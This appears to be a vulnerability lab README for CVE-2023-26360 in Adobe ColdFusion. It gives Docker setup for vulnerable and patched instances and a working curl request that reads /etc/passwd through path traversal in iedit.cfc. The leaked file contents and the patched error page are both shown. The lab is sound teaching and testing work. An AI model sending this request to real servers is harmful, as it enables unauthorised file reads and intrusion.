 # Adobe ColdFusion: Local File Inclusion Leads to RCE (CVE-2023-26360)

Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.

Adobe ColdFusion versions 2018 Update 15 (and earlier) and 2021 Update 5 (and earlier) are affected by an Improper Access Control vulnerability that could result in local file inclusion and arbitrary code execution in the context of the current user.

## Vulnerable Version
### Setup
Start a Adobe ColdFusion 2018.0.15:

```bash
docker compose -f docker-compose-vuln.yml up
```

After a few minutes wait, visit `http://127.0.0.1:8500/CFIDE/administrator/index.cfm` with password `vulhub` check if  Adobe ColdFusion has installed successfully.

If it is still not working, please reset the password manually:
```bash
docker compose up -d
docker compose ps # grab name of the container <container_name>
docker exec  -it <container_name> bash
cd /opt/coldfusion/cfusion/bin
sh passwordreset.sh
# press 1 -> insert new password ( 4 times )
sh cfstop.sh
sh cfstart.sh
# exit container (C-d)
```

### Exploit 

Send the following request to the server to retrieve `/etc/passwd`:

```bash
curl -X POST "http://127.0.0.1:8500/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true" \
     -H "Host: 127.0.0.1:8500" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     --data "_variables={\"_metadata\":{\"classname\":\"../../../../../../../../etc/passwd\"}}"
```

The output would be the contents of `/etc/passwd`:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
cfuser:x:999:999::/home/cfuser:/bin/sh
<SNIP>
```

## Safe Version 
### Setup
Start a Adobe ColdFusion 2018.0.15:

```bash
docker compose -f docker-compose-safe.yml up
```

After a few minutes wait, visit `http://127.0.0.1:8500/CFIDE/administrator/index.cfm` with password `vulhub` check if  Adobe ColdFusion has installed successfully.

If it is still not working, please reset the password manually:
```bash
docker compose up -d
docker compose ps # grab name of the container <container_name>
docker exec  -it <container_name> bash
cd /opt/coldfusion/cfusion/bin
sh passwordreset.sh
# press 1 -> insert new password ( 4 times )
sh cfstop.sh
sh cfstart.sh
# exit container (C-d)
```

### Unsuccessful Exploit 

Send the following request to the server to attempt to retrieve `/etc/passwd`:

```bash
curl -X POST "http://127.0.0.1:8500/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true" \
     -H "Host: 127.0.0.1:8500" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     --data "_variables={\"_metadata\":{\"classname\":\"../../../../../../../../etc/passwd\"}}"
```

The vulnerability has been patched and the output no longer discloses the requested file's content:

```html
<!-- " ---></TD></TD></TD></TH></TH></TH></TR></TR></TR></TABLE></TABLE></TABLE></A></ABBREV></ACRONYM></ADDRESS></APPLET></AU></B></BANNER></BIG></BLINK></BLOCKQUOTE></BQ></CAPTION></CENTER></CITE></CODE></COMMENT></DEL></DFN></DIR></DIV></DL></EM></FIG></FN></FONT></FORM></FRAME></FRAMESET></H1></H2></H3></H4></H5></H6></HEAD></I></INS></KBD></LISTING></MAP></MARQUEE></MENU></MULTICOL></NOBR></NOFRAMES></NOSCRIPT></NOTE></OL></P></PARAM></PERSON></PLAINTEXT></PRE></Q></S></SAMP></SCRIPT></SELECT></SMALL></STRIKE></STRONG></SUB></SUP></TABLE></TD></TEXTAREA></TH></TITLE></TR></TT></U></UL></VAR></WBR></XMP>
<font face="arial"></font>
<html>
   <head>
      <title>Error Occurred While Processing Request</title>
      <SNIP>
```

Credit: 
- https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2023-26360/README.md

References:

- <https://xz.aliyun.com/t/13392>
